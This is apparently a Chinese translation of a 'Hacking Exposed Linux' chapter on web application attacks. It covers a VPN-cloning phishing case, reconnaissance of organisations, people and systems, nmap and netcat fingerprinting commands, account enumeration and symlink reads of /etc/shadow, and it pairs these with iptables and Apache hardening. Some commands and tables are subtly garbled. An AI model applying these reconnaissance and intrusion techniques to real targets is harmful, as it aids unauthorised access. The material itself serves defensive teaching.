在对目标组织进行分析后，攻击者发现其外部基础设施已经过加固并进行了安全配置。互联网上可见的服务只有一个 SSL VPN Web 界面，该界面实施了双重身份验证。此界面需要用户名、密码，以及每隔 60 秒变化一次的硬件令牌代码。

攻击者决定，破解该环境的最佳方法是将 SSL VPN 镜像到自己的机器上，并进行一些轻微的恶意修改。这些修改包括添加微小的帧，其中包含针对不同类型和版本的网络浏览器的客户端漏洞、通过内部网络浏览器实现 HTTP 代理的客户端代码，以及捕获 SSL VPN 身份凭据的能力。

攻击者利用从互联网各处收集的电子邮件地址，伪造了一系列来自 IT 经理的、具说服力的邮件，指示每位用户使用提供的链接登录 SSL VPN（该链接指向攻击者的伪造 SSL VPN Web 界面），否则用户的账户将被禁用。

在发送这些邮件后的 30 秒内，用户便开始登录攻击者的网站。这立即为攻击者提供了在接下来 60 秒内有效的 SSL VPN 身份凭据、若干指向具有漏洞网络浏览器的内部机器的远程 Shell，以及通过用户网络浏览器中运行的 HTTP 代理对内部和外部 Web 应用执行 Web 攻击的能力。这次单一攻击利用了员工与其电子邮件和 Web 应用之间的多种信任关系，获得了进入目标内部网络的三条独立路径。

# 第 13 章：Web 应用程序攻击

你认为你的安全基础设施确保了数据安全，且你的安全策略保证没有敏感信息泄露到你组织的“防弹墙”之外？好吧，你是相信这种观点的大多数人之一，不幸的是，这意味着你也是可能错误的绝多数人之一，并且比你想象的要更容易受到攻击。

Web 应用程序已经从单个 Web 服务器上静态页面和简单脚本的组合，演变成了高度复杂且昂贵的 Web 应用程序。这些应用分布在多个 Web 服务器、应用服务器、数据库服务器和安全层中，与其他 Web 应用程序接口，并整合了各种 Web 组件，如负载均衡器、Web 缓存代理、防火墙以及入侵检测和防御设备。

尽管基础设施中内置了所有的安全设备，并且这些 Web 应用程序开发了安全功能，你仍然无法确定你的数据是安全的。为什么？因为安全领域总是会被入侵：那就是人类。

出于这一原因，本章重点关注攻击者如何能够从你的用户和系统中枚举并窃取敏感信息，以及他们如何通过使用 Web 攻击技术的各种攻击来操纵、攻击和利用信任关系，以未经授权访问你组织的资产，以及主动检测和防止这些攻击发生的方法。

# 枚举 (ENUMERATION)

如果攻击者正在对特定组织进行定向攻击，他通常从隐身模式开始，以避免攻击被组织发现。这可以通过被动枚举泄露在公共系统上的关于组织、人员及其系统的信息来实现。攻击者可能会转向主动枚举技术，尝试从组织的系统中提取信息，以确定可能存在哪些漏洞。

## 被动画像分析与情报侦察

| 流行度: 9 |
| 简单性: 9 |
| 影响: 3 |
| 风险等级: 7 |

组织内部的员工经常向互联网泄露一些看似无害的信息，有时出于非常正当的原因。然而，当这些拼图碎片被组合在一起时，形成了一幅比你所希望的组织内部运作更为清晰的蓝图。了解在哪里可以找到这些信息的攻击者可能会对你的组织发起更具针对性的攻击，收集的每条信息都会让攻击变得更加有效。

### 破解公开版 Linux：Linux 安全秘密与解决方案

攻击者在寻找什么类型的信息？任何有助于拼凑你组织拼图的信息，包括与你的组织、人员和系统相关的枚举信息。

## 组织枚举

组织枚举集中于搜索与业务相关的信息，例如组织架构、部门、方向和规划、产品和服务、政策和流程、物理地址、文化、地区、时区、语言、联盟和合作伙伴、经销商、有影响客户、供应商和分销商、投资者、股票和交易信息、财务报告、并购以及任何其他声明为机密的内容。

这允许攻击者了解目标组织，包括可能的高层弱点，拥有强大知识库的攻击者可以据此发起攻击。这些弱点可能是由于利用外部之间信任关系的能力，或者由于政策和流程泄露给公众，导致攻击者能够确定如何与组织交互以及所需的专业术语。

除了通过互联网搜索引擎收集此类信息外，企业信息网站（如 `http://www.corporateinformation.com`、`http://biz.yahoo.com` 和 `http://www.hovers.com`）还向公众提供详细的公司信息，作为业务摘要、财务博客、分析师估计和市场统计、内部信息、高管姓名和薪资详情、新闻标题和报告。类似 `http://www.internalemos` 的网站允许攻击者搜索特定组织的内部备忘录、泄露的电子邮件和传言，为他们对组织的业务方面提供清晰的洞察，这可能导致执行更精确的社会工程攻击。

## 人员枚举

人员枚举涉及寻求员工姓名、电子邮件地址、电话和传真号码、办公地点、培训和技能要求、职位名称、职位描述、工作历史、员工之间的真实关系、薪资范围、内部社交政策、员工不满情绪、离职率、招聘和解雇、社交活动、爱好和性格。

这类信息通常被员工视为无关紧要的，因此在泄露到互联网时，他们对其对组织安全或员工本身可能产生的影响几乎或完全没有理解。通过收集人员信息，攻击者能够被动地建立各种个人和角色的画像，从而枚举出脆弱的员工和信任用户。攻击者试图刻画的一种特定类型人员是技术人员。与技术人员的互动应保持谨慎，因为他们通常具有更高的安全意识；然而，由于他们极有可能在内部系统中拥有高级权限，他们是攻击者高度追求的目标。技术性较的员工以及新员工也是热门目标，因为他们不太可能理解违反 IT 安全的影响。

## 第 13 章：Web 应用攻击

策略，如果他们甚至不知道 IT 安全策略包含哪些内容，从而向互联网泄露敏感信息。

一些互联网搜索引擎提供了“人员搜索”选项，例如 `http://www.zoominfo.com`，在这些平台上，你可以根据互联网上找到的信息几乎瞬间创建个人档案。然而，这并不是最大的威胁。社交网络网站（如 Facebook、LinkedIn、Orkut 和 MySpace）允许个人建立自己的职业和社交网络。这些网站还让攻击者能够搜索并枚举有关个人的大量信息。Facebook (`http://www.facebook.com`) 是社交网络网站的一个典型例子，攻击者在该平台上可以根据姓名、性别、城市、州、国家、邮政编码、感情状态、是否正在寻找关系、政治和宗教观点、兴趣、活动、音乐、电影、电视节目、教育背景、座电话和手机号码、电子邮件地址、国家名称或职位来搜索人员。

通过在网上搜索公司名称，攻击者可以枚举出目标组织内可能有的数百员工的个人简介，包括所有列出的详细信息，以及照片、朋友的名字和简介、他们加入的小组、访问过的城市、他们周五做了什么、他们是否擅长舞蹈、他们喜欢什么饮料、访问哪些餐厅，甚至他们现在正在做什么！如果你认为要实施一次成功的社会工程攻击需要比这更多的信息，那么你可能选错职业了，离开吧！

## 系统枚举 (System Enumeration)

系统枚举旨在尽可能查看大量的低层技术信息，例如网络注册、域名注册、IP 地址和系统名称、公司网站、虚拟主机、DNS 条目、系统配置、管理问题、服务器类型和使用的软件、物理服务器位置、生产和开发系统、可能的用户名和密码，以及系统之间的信任关系。

许多人对互联网上可以获得这么多信息感到惊讶，而你只需要知道去哪里看以及如何使用互联网搜索引擎。网络注册信息可以通过多个 WHOIS 数据库（如 RIPE、ARIN 和 APNIC）找到，可以通过 浏览器或 WHOIS Linux 实用程序访问。这些数据库允许用户确定你的组织分配了哪些 IP 地址、显示姓名的联系信息、电子邮件地址、电话号码、组织的物理地址，有时甚至是公司的 DNS 服务器。

攻击者可以通过对枚举的 IP 地址进行反向查询，来增加对组织系统的了解。这允许他们确定系统、网站、域名和子域名的名称，从而发现虚拟主机和电子邮件地址。

电子邮件地址对攻击者来说特别有用，因为它们提供了社会工程攻击的接触点；揭示了组织的电子邮件格式，允许预测额外的电子邮件地址；它们还允许执行钓鱼攻击，并可能用于推导出内部和外部系统的用户名。

### Linux 攻防：Linux 安全秘密与解决方案 (Hacking Exposed Linux: Linux Security Secrets & Solutions)

内部系统和软件类型及版本，以及详细的系统配置通常可以通过查看论坛、博客、新闻组、邮件列表、Web 日志、入侵日志和职位数据库等网站发现。这通常是因为员工为了调试运行异常的新内部服务器，从他们的公司邮箱粗率地将内部系统信息发布到这些网站上，试图在故障排除方面获得帮助。

在攻击者连接到你的网络之前，他们可能已经建立了关于你的组织、人员和内部系统的档案，使他们能够制定更详细、更精确的攻击。这种攻击可能是社会工程形式、利用配置不当的 Web 服务器，或者只是使用收集到的身份验证凭据登录外部服务。

## 防止被动画像分析和情报侦察：安全策略与意识培训 (Preventing Passive Profiling and Intelligence Scouting: Security Policy and Awareness Training)

安全策略应该经过设计和执行，以尽可能减少发生的信息泄露，包括在互联网上、电话中、电子邮件以及面对面的泄露。应该建立严格的协议，规定在向内外部人员提供特定信息之前需要什么种授权，以及到底哪些信息是允许提供的（例如密码）。

应该对所有员工进行安全意识培训，以确保他们理解违反安全策略对组织和自身产生的影响，以及为了确保敏感信息不落入他人之手必须执行的流程。

IT 安全团队还应该审计这些流程的执行情况，方法是检查向公众发布了哪些信息，在互联网上搜寻与组织相关的信息，以及进行社会工程测试以确保遵循相关流程。

组织还应该创建“应急响应计划”（Incident Response Plan），以确保所有员工在发生社会工程攻击或任何其他类型的攻击时，确切知道该做什么。如果没有预先的应急响应计划，大多数组织将被迫临时创建一个，导致有关攻击的关键信息丢失。

# Web 应用枚举 (Web Application Enumeration)

| 流行度: | 9 |
| 简单性: | 5 |
| 影响范围: | 5 |
| 风险评分: | 6 |

为了扩展或验证在被动画像分析阶段收集的信息，攻击者可能会转向执行主动 Web 应用枚举。这涉及到实际连接到组织的系统，以收集通常无法通过搜索引擎获取的信息。这允许攻击者确切地看到可以针对组织的员工和系统实施哪些攻击。

## 端口和服务的扫描 (Port and Service Scans)

如果攻击者的目标是让攻击不被发现，那么他或她可能会推迟端口扫描，并开始主动枚举画像分析阶段收集的信息。如果不谨慎进行端口扫描，可能会触发入侵检测系统 (IDS) 或入侵预防系统 (IPS)，从而向管理员发出警告。

通过对常用端口（如 80、443、8000、8001、8080、8081、8443）进行端口扫描，可以发现额外的应用程序。下面的代码显示了如何使用 Nmap 对部分端口进行扫描。`-PO` 选项跳过了主机发现过程，即使主机看起来未激活也会执行扫描。

```bash
nmap -PO -80,443,8080 192.168.1-20
```

还可以使用更高级的技术来绕过防火墙或避免 IDS 检测，例如分包包或操作 MTU、使用欺骗探测创建扫描、伪造源 IP 地址、设置源端口为 53、设置 TTL 值以及发送带有错误和的数据包。其他流行的扫描器包括 Unicorn Scan、Amap 和 Hping。Hping 是一个向你的目标发送特制数据包的强大工具。

## 目标指纹识别 (Fingerprinting the Target)

在发现开放的 Web 应用后，攻击者现在需要识别系统运行着哪些 Web 服务器和服务器模块。

指纹识别可以通过多种方式进行。大多数扫描器都可以配置为提取标志（banners）或进行服务和操作系统预测，从而让攻击者了解开放端口是否正在运行 Web 应用。

### Hacking Exposed Linux：Linux 安全秘密与解决方案

`--version-intensity` 选项用于设置探测强度，其中级别 0 为轻度探测，级别 9 则向端口发送所有类型的探测。

```bash
nmap -P0 -sV -O --version-intensity 5 -p80,443,8080 192.168.1.11-20
```

然而，这并不允许攻击者看到从 Web 服务器返回的所有标头。查看这些信息最详尽的方法是手动连接到 Web 服务器端口，或使用本地 Web 代理，例如 Paros、WebScar 或 Burp Suite。图 13-1 展示了攻击者如何使用 Netcat 工具通过 Web 服务器连接到 80/TCP 端口，并发送 HTTP 请求以获取 HTTP 头部。

如果 Web 通过 HTTPS 运行，攻击者可以在 Debian 上使用以下 stunnel 命令来创建一个加密的 SSL 隧道，并使用 Netcat 获取 HTTP 请求：

```bash
# stunnel -r https.example.com:443 -c -d localhost:888
# nc localhost 888
HEAD / HTTP/1.0
```

也可以使用本地 Web 代理（如图 13-2 所示的 Paros）自动创建 SSL 隧道。

在图 13-1 中，HTTP Server 头部显示该系统是一个运行 Apache 2.0.55 的 UNIX 服务器，并安装了许多模块来增强 Web 服务器的功能，还包括服务器日期等其他信息。攻击者随后可以通过查看公共漏洞和利用程序数据库（例如 `/cve.mitre.org`、`http://www.securityfocus.com` 和 `http://www.metasploit.org`）来确定这些特定软件版本是否存在漏洞和利用程序。如果攻击者足够练且有决心，他们还可以下载此特定版本的 Apache，并为该系统开发自己的利用程序，以尝试在主机上获取远程 shell。



# 第 13 章：Web 应用程序攻击

| 站点 | 请求 | 响应 | 陷阱 |
| --- | --- | --- | --- |
| 站点 | | | |
| +://10.81.83.217 | HTTP/1.1 200 OK<br>Date: Sun, 17 Aug 2007 00:46:39 GMT<br>Server: Apache/3.31 (Unix)<br>Content-Location: index.html<br>Variary: accept-language,accept-charset<br>TCN: choice<br>Last-Modified: Fri, 04 May 2000 00:01:38 GMT<br><br><!DOCTYPE html PUBLIC "//W3C//DTD HTML 1.0 Transitional//EN"><br><<!DOCTYPE HTML SYSTEM "http://www.w3.org/TR/DTD/html-transitional.dtd"><br><html xmlns="http://www.w3.org/1999/xhtml"><br><head><br><title>Apache 安装测试页面</title><br></head><br><body>&gt><li>- 背景白色，链接蓝色（未访问），深蓝色（已访问），红色</li></body></html> | | | |
| 1 GET | http://10.81.83.217/ | 200 OK | |

**图 13-2** 代理允许攻击者查看 HTTP 响应标头。

# 防止主动 Web 应用程序枚举

防止攻击者直接从你的系统中主动枚举信息，需要让系统允许最小化访问，并提供服务正常运行所需的最少信息。这包括通过防火墙限制攻击者可见的服务，以及配置主机以防止信息泄露（例如通过 HTTP 头部获取的信息）。

## 基于主机的防火墙/数据包过滤器

大多数组织在网络边界至少有一个防火墙；然而，它们对系统的保护不足以抵御直接攻击，导致允许来自内部网络的攻击利用未对互联网开放的漏洞服务，或者允许渗透边界防火墙的攻击者轻松地在内部网络中移动。


# Linux 安全与 Web 应用程序攻击

## IPTables 防火墙配置

Linux 发行版附带的一种流行防火墙或数据包过滤器是 `IPTables`。该防火墙允许管理员过滤所有非生产环境协议和端口（无论开启还是关闭），从而阻止端口扫描器枚举服务器上运行的所有服务。某些端口扫描器（如 `Nmap`）还可以进行操作系统预测，这可能允许攻击者利用操作系统的漏洞。然而，通过限制服务器响应的协议和端口，这些操作系统的猜测准确性会大大降低，从而显著减少攻击精度。

`IPTables` 还可以用于限制对更敏感的服务（如 `SSH` 或 Web 管理界面）的访问，仅允许授权的 IP 地址连接到端口。这并非万无一失，因为攻击者可能伪造 IP 地址；但它确实变得不再那么容易攻击。

例如，要配置 `IPTables` 仅允许来自互联网的 `80/TCP` 和 `443/TCP` 端口连接，并限制管理 IP 地址对 `22/TCP` 端口的访问，可以顺序运行所有命令：

```bash
iptables -F
iptables -X
```

然后设置 `IPTables` 使其具有默认拒绝策略：

```bash
iptables -P INPUT DROP
iptables -P OUTPUT DROP
iptables -P FORWARD DROP
```

允许从任何地方到 Web 服务器 `80/TCP` 端口的 HTTP 请求：

```bash
iptables -A INPUT -p tcp --dport 80 -s 0.0.0.0 -j ACCEPT
```

允许 Web 服务器从 `80/TCP` 端口的 HTTP 响应：

```bash
iptables -A OUTPUT -p tcp --sport 80 -d 0.0.0.0 -j ACCEPT
```

允许从任何地方到 Web 服务器 `443/TCP` 端口的 HTTPS 请求：

```bash
iptables -A INPUT -p tcp --dport 443 -s 0.0.0.0 -j ACCEPT
```

允许 Web 服务器从 `443/TCP` 端口的 HTTPS 响应：

```bash
iptables -A OUTPUT -p tcp --sport 443 -d 0.0.0.0 -j ACCEPT
```

允许从管理地址 `MGT_IP_ADDR` 到 Web 服务器 `22/TCP` 端口的 SSH 连接：

```bash
iptables -A INPUT -p tcp --dport 22 -s MGT_IP_ADDR -j ACCEPT
```

仅允许从 Web 服务器到管理地址 `MGT_IP_ADDR` 的 `22/TCP` 端口的 SSH 流量：

```bash
iptables -A OUTPUT -p tcp --sport 22 -d MGT_IP_ADDR -j ACCEPT
```

## 攻防者 Linux：Linux 安全秘密与解决方案

管理员和开发人员往往未能正确实现这些安全控制措施。

许多 Web 应用程序泄露的信息对管理员来说可能微不足道，但对攻击者来说往往至关重要。你已经见过的一个例子是通过 HTTP 头部泄露 Web 服务器和模块版本。这初看起来看似不起要，但对攻击者来说，这可能提供了足够的信息来破坏你的 Web 服务器。因此，需要尽可能减少敏感信息的泄露，以确保 Web 服务和应用程序的安全。

许多此类漏洞可以被 Web 应用程序扫描器检测，例如 `Paros` 和 `Nikto`，以及某种程度上的 `Nessus`。

### 糟糕的错误处理

| 流行度 | 8 |
| :--- | :--- |
| 简单性 | 5 |
| 影响: | 4 |
| 风险等级: | 6 |

如果攻击者能够强制 Web 应用程序产生错误，这些错误信息通常会包含与底层操作系统、Web 服务器、数据库或应用程序相关的信息。这些信息随后可以用于直接攻击系统，或让其他攻击更具针对性。

配置不当的 Web 服务器产生的默认错误信息通常会泄露与 Web 服务器类型和版本相关的信息。这在 `404` 错误信息中很常见，如图 `13-3` 所示，页脚显示了细节和 Web 服务器配置信息。

这种默认错误信息引发了与之前讨论的 HTTP 服务器相同的关注。攻击者能够判断 Web 服务器内部是否存在漏洞，或者简单地将这些信息用于社会工程攻击，以让受害者相信他或她是员工——因为只有内部员工才知道内部系统的类型和版本，对吧？

完整的文件系统路径通常通过应用程序服务（如 `Tomcat`）产生的错误信息泄露，如下所示：

```
-- java.io.FileNotFoundException:
/var/www/hosts/site1/httpdocs/config.xml (No such file or directory)
```

攻击者现在确切知道了 Web 服务器文件系统的结构如何，从而可以执行更准确的目录遍历攻击。文件系统本身也揭示了底层操作系统是一个 `NIX` 系统。Web 服务器似乎还托管了虚拟网站，可能允许对不安全的第三方网站进行攻击，从而破坏系统，以及你的 Web 应用程序。

### 第 13 章：Web 应用程序攻击

#### 未找到 Not Found

请求的 URL `/nonexistent.php` 在此服务器上未找到。

`Apache/2.0.55 (Debian) mod_python/3.2.10 Python/2.4.4c0 PHP/4.4.2-1.1 mod_perl/2.0.2 Perl/v5.8.8 Server at 192.168.0.167 Port 80`

- 表 `13-3` `Apache` 默认错误信息泄露了 Web 服务器的类型和版本。

数据库（如 `MySQL`）经常被作为 Web 应用程序的后端机制。如果 Web 应用程序和数据库没有实现安全，可能强制显示数据库错误信息。这些数据库错误可能包含与 Web 应用程序向数据库执行的 SQL 查询相关的信息，如果你足够幸运，你甚至可以获得整个 SQL 查询字符串。

攻击者在尝试开发 SQL 注入攻击时，这些错误信息非常有帮助，因为攻击失败的原因在错误中描述得非常具体，这使得更容易确定所需的精确语法。关于 SQL 注入攻击的更全面查看，可以参考本章后半部分的“数据验证不足”。

Web 应用程序产生的错误通常更离散一些，但可能仍允许攻击者枚举数据库中的信息，可能通过暴力破解攻击。开发人员犯的一个常见错误是为错误的用户名和错误的密码生成不同的错误信息：

```
Error: Username is invalid.
Error: Password is incorrect.
```

如果攻击者尝试使用无效的用户名和密码登录，并收到提示用户名错误的错误，攻击者就知道该用户名在数据库中不存在。如果返回的错误显示密码错误，那么攻击者就可以假设用户名是正确的，密码是错误的。

### 攻防者 Linux：Linux 安全秘密与解决方案

通过使用暴力破解技术，攻击者能够利用这些错误信息枚举 Web 应用程序的有效账户列表。攻击的下一阶段可能是对这些账户进行密码暴力破解，或将此信息用于社会工程攻击以重置密码，或者再次再次简单地让受害者相信攻击者确实是一个员工。`Burp` 的 `Intruder` 功能在利用这类漏洞错误信息方面非常出色，因为它为攻击者提供了对请求数据和要执行攻击类型的细粒度控制。

`Burp` 还提供了 `Comparator` 功能，允许攻击者轻松检测响应中的任何差异，而不仅仅是错误消息，这意味着如果你的响应仅多了一个空格或换行符，攻击者也能为你的 Web 应用程序枚举有效账户列表。

#### 预防糟糕的错误处理

全局错误处理器通常在 Web 服务器内部实现，以防止未处理的异常或默认错误信息向最终用户泄露信息。应用程序特定的错误处理器通常在代码内部实现，以控制应用程序的逻辑和流程。Web 应用程序防火墙 `WAF` 也可用于捕错误消息并防止其到达最终用户，作为额外的安全层。

#### 正确的错误处理

在 `Apache` 中，你可以使用 `ErrorDocument` 指令将用户重定向到特定错误代码不包含任何敏感细节的自定义页面：

```
ErrorDocument 404 /error.php
```

为了更高级的处理，`Apache` 还支持各种重定向变量，可以在触发错误代码时设置：

```
REDIRECT_STATUS=404
REDIRECT_PORT=443
REDIRECT_URL=/nonexistent.html
```

复杂的 Web 应用程序还需要确保架构中的所有设备都受到控制，使其仅对技术人员可见。应用程序 产生的自定义错误不得泄露敏感信息，也不应允许攻击者根据不同的错误和响应判断数据库内容。不泄露信息的错误信息应该是

```
Error: Login failed.
```

### 第 13 章：Web 应用程序攻击

设计人员和开发人员需要接受安全意识和安全编码培训，以便开始思考创建应用程序时可能出现的问题。

#### ModSecurity

由于 `ModSecurity` 理解 HTTP 协议，它可以对 HTTP 请求或响应的任何部分进行细粒度过滤，包括请求行、单个参数、命名头部或 Cookie、POST 负载甚至响应体。这使得恶意请求在到达 Web 服务器之前被捕获，并且 Web 服务器或 Web 应用程序生成的意外错误或输出被捕获或清洗。

#### Server Signature

管理员可以通过设置 `Apache` 配置指令来关闭 `Apache` 错误中的页脚显示：

```
ServerSignature Off
```

这将阻止 Web 服务器通过错误信息泄露操作系统类型、安装的模块以及所有版本信息。

#### 代码中的注释

| 流行度: 3 |
| :--- | :--- |
| 简单性: 8 |
| 影响: 2 |
| 风险等级: 4 |

从你编程生涯的开始，你就被反复告诉要使用注释，让阅读代码的人理解程序的流程。这对于开发系统来说是良好的做法；然而在将这些代码传输到生产系统之前，应该删除所有泄露信息（包括注释），以确保信息泄露降至最低。

这些注释为攻击者提供了 Web 应用程序开发的洞察，让他们能够确切代码在做什么。这为攻击者节省了时间，并可能提供足够的见解来理解如何绕过安全机制。当安全性实现在 `JavaScript` 或 `Java Applet` 中时，通常如此。`JavaScript` 可以被修改或直接关闭，而 `Java Applet` 可以被反编译以显示源代码，从而允许客户端机制被枚举和绕过。

HTML 源代码中的注释可能会泄露软件类型和版本、开发者姓名和联系方式、不再使用的旧源代码以及

### Hacking Exposed Linux：Linux 安全机密与解决方案

即使是用户名和密码。隐藏字段与注释相似之处在于它们经常会泄露敏感信息，包括完整的文件系统路径、内部 IP 地址或系统名称，以及银行详情和账户号码等机密信息。

#### 移除代码中的注释

所有的注释（包括开发者注释和自动生成的注释）都应该从生产代码中移除，以确保不会泄露敏感信息，并且不会向攻击者提供有关应用程序如何工作的有用提示。

#### 配置不当的 Web 服务器

| 流行度: | 7 |
|---|---|
| 复杂度: | 5 |
| 影响: | 5 |
| 风险评分: | 6 |

配置不安全的 Web 服务器可能会泄露大量信息，并使你的 Web 服务器受到各种攻击。默认 Web 服务器配置通常包含许多不安全设置。默认情况下，`Apache` 是一个相对安全的 Web 服务器；但在用于生产目的仍需进行调整。

当 `Apache` 在像 `Debian` 等预配置的 Linux 发行版中发布时，情况尤为如此。默认文件和目录包括 `Apache` 手册、`/icons/` 和 `/icons/small/`、`/cgi-bin/`、readme 文件和欢迎页面。这些允许攻击者收集除生产目的所放置在互联网上的其他信息，可能允许他或她确定 Web 服务器的类型、版本和配置。默认 Web 服务器配置可能允许目录列表生成，从而能够枚举 Web 服务器目录并浏览所有默认文件和目录。

`Apache` 有一种默认的访问控制方法，这意味着默认情况下，Web 服务器网页内的所有文件都可以通过 Web 服务访问。敏感、私有或机密文件和信息存储在 Web 服务器的网页中是常常的，而在默认情况下，这些内容会暴露在互联网上。由于 Web 服务器上未实现访问控制，未引用的文件和目录（包括各种 Web 应用程序配置文件、备份和临时文件，以及未引用的 Web 应用程序和管理界面）通常可以在互联网可用。

这些未引用的文件可能导致许多安全问题，范围从枚举内部系统信息、发现不安全的配置文件、下载 Web 应用程序源代码以及破解访问管理 Web 界面，到严重违反保密协议。如果存在漏洞软件，还可以采用 Google 骇客攻击（Google Hacking），即攻击者拥有特定版本 Web 应用程序的利用程序，并能够利用 Google 的搜索功能找到有漏洞的公司——届时简直易如菜破掌。Google 骇客数据库（`http://johnny.hackstuff.com/ghldb.php`）是寻找网上漏洞软件的极佳方法。该网站对 Google 索引的各种敏感信息和功能进行分类，例如各种 Web 应用程序的用户名和密码、你可以移动缩放的开放摄像头，以及配置不当或有漏洞的 Web 应用程序软件（包括开放路由器 Web 界面，允许你设置 VPN 服务器并访问组织的内部网络）。

`FollowSymLinks` 指令通常默认启用，与其他漏洞或配置不当相结合，可能允许攻击者通过文件系统获取任意文件的读取权限。如果攻击者能够在 Web 服务器上创建一个指向 `/etc/passwd` 文件的符号链接，那么请求该符号链接将返回该文件的内容，允许攻击者枚举系统上的所有账户。如果 Web 服务器被配置为 root 用户，则也可以下载 `/etc/shadow` 文件，从而捕获密码哈希并进行离线破解。Web 服务器不应配置为 root 用户，以确保任何被利用的漏洞或配置不当所造成的损害范围受到限制。

这意味着与 Web 服务器相关的目录和文件权限也需要进行配置，以便无特权的 Web 用户无法覆盖文件或目录。想象一下，如果 `Apache http` 二进制文件可被此无权用户写入，因此可以被攻击者替换。下一次 `http` 二进制文件运行时，它可能会在系统上创建一个后门。同样，如果 Web 服务器能够覆盖生产 Web 页面或日志，攻击者可能破坏网站并销毁 Web 服务器日志中的任何攻击证据。

管理员在启用 `UserDir` 指令时应格外小心，该指令允许系统用户拥有位于其家目录下的网站。通过请求 Web 目录 `/~/`，Web 服务器将尝试加载位于 `jdoe` 家目录下的网站，通常位于名为 `public_html` 的文件夹中。这引发了许多安全问题。攻击者可能通过请求各种用户网站来暴力破解系统上的用户账户列表，以判断它们是否存在。`Burp Intruder` 是此类攻击的极佳工具。如果 root 用户也被配置为拥有用户网站，并且启用了目录列表，那么通过请求 Web 目录 `/root/`，攻击者可能浏览整个文件系统，获取大量敏感信息。

默认的 Linux 发行版还可能带有 `Apache` Web 服务器的增强功能，例如 `PHP` 和 `Perl` 模块。这些附加组件也需要进行配置和升级，以确保不会出现意外漏洞。例如，如果 Web 应用程序使用 `PHP`，但 Web 服务器未配置将 `.php` 扩展映射到 `PHP` 应用程序，那么源代码将传递给攻击者，而不是由 `PHP` 模块解析。攻击者随后能够检查 `PHP` 源代码以确定是否存在任何安全弱点，或获取敏感信息，如数据库查询字符串、用户名和密码。

#### 防止配置不当的 Web 服务器

加固 Web 服务器配置是保护你的 Web 应用程序的关键部分，遗憾的是，许多管理员假设开发者会在其代码中实现安全措施以防止所有攻击。这在所有情况下都是可能的，因此，管理员应该调查哪些漏洞源于 Web 服务器配置的弱点，以及如何锁定配置以保护应用程序和环境。

##### 默认安装

在将 Web 服务器投入生产环境之前，从其 Web 空间中移除任何默认 `Apache` 文件和目录，以尽可能地减少信息泄漏。如果安装了不必要的模块，它们会给 Web 服务器增加不必要的风险，因此应该禁用。你通常可以通过注释 `Apache` 配置中无关模块的 `LoadModule` 行来实现。

##### 目录列表

要禁用目录列表（或目录浏览），请在 `Directory` 块中使用 `Options` 指令并带有 `None` 或 `-Indexes` 参数。这将确保攻击者无法简单地穿过 Web 服务器的空间。

```
Options -Indexes
```

##### 默认拒绝策略

要确保 Web 服务器上实施默认拒绝策略，请使用以下配置块：

```
<Directory />
Order Deny,Allow
Deny from all
</Directory>
```

### 第 13 章：Web 应用攻击

##### 管理界面

管理界面应仅允许来自内部网络特定 IP 地址的访问。你可以通过多种方式实现这一点；但是，使用以下 `ModSecurity` 指令可以限制管理目录，使其仅从你的 IP 地址访问：

```
<Location /admin/
  SecFilterSelective REMOTE_ADDR "^YOUR_IP_ADDRESS"
</Location>
```

尽管 `ModSecurity` 在防止入侵尝试方面非常非常作用，但它不应被视为能够解决你所有问题的安全解决方案。这意味着你的 Web 服务器本身需要进行安全配置，以确保度地减少 Web 应用程序的风险。

##### 定期升级

隐藏服务器类型和版本并防止攻击者利用你的 Web 服务器，管理员应确保定期将 Web 服务器及相关模块升级到最新版本。

##### 符号链接

`Apache` 配置文件中的 `Options` 指令也可以用于 `Directory` 标签，以停止 Web 服务器跟踪符号链接，从而确保攻击者无法跟踪敏感文件（如 `/etc/passwd` 或 `/etc/shadow`）的符号链接：

```
Options -FollowSymLinks
```

##### 服务器端包含 SSI

也可以使用 `Directory` 标签内的 `Options` 指令禁用服务器端包含，以防止服务器端包含注入等漏洞：

```
Options -Includes
```

##### CGI 执行


也可以通过在 `Directory` 标签中使用以下 `Options` 指令禁用 CGI 执行，以确保不执行漏洞的 CGI 程序：

```
Options -ExecCGI
```

## Web 服务器用户

Web 服务器不应配置为以 root 用户或组运行，以确保任何被利用的漏洞或错误配置的影响范围被限制。Apache 应该以其唯一的用户和组运行，这可能也排除 `nobody`，因为 `nobody` 用户或组可能被其他服务使用。创建 Apache 用户账户和组后，你可以使用以下指令进行配置：

```
User apache
Group apache
```

## 收紧权限

确保对所有 Web 服务器文件、目录以及与网站相关的文件设置严格的权限，以确保在 Web 服务器被攻破时文件不会被修改或删除。这意味着 Apache 用户对所有文件和目录应具有最小权限。Apache 还可以配置为在 `chroot` 环境中运行，并使用 ModSecurity 指令进行配置：

```
SecChrootDir /chroot/apache
```

## 公共目录

应禁用公共目录（或用户目录），以确保用户账户无法在网站上放置漏洞脚本。这可以使用 `UserDir` 指令实现：

```
UserDir disabled
```

## 模块配置

确保所有模块都正确配置与确保 Web 服务器得到良好保护同样重要。配置不当的 `mod_security` 模块可能会对 Web 服务器的安全和功能产生巨大影响。

## 分散式配置

Apache 支持分散式配置文件，这些文件可以放在 Web 服务器的任何目录中。这些文件通常被称为 `.htaccess`，你使用它们来覆盖之前在全局 Apache 文件中设置的配置选项。为了防止使用 `.htaccess` 文件，请在 Apache 配置文件中设置以下配置选项：

```
<Directory />
AllowOverride None
</Directory>
```

## 限制其他选项

限制 Web 服务器的超时时间可能会减少拒绝服务攻击的能力。

```
Timeout 45
```

也可以对请求限制进行调整，以确保恶意攻击有最小的操作空间。你可以通过调整以下 Apache 配置选项来适应你的 Web 应用程序：

```
LimitRequestBody 52488
LimitRequestFields 20
LimitRequestFileSize 8190
LimitRequestLine 8190
```

如果未使用 WebDAV，也应禁用它，或者根据你的 Web 应用程序需求限制 XML 请求体的最大 own：

```
LimitXMLRequestBody 104856
```

## 数据验证不足

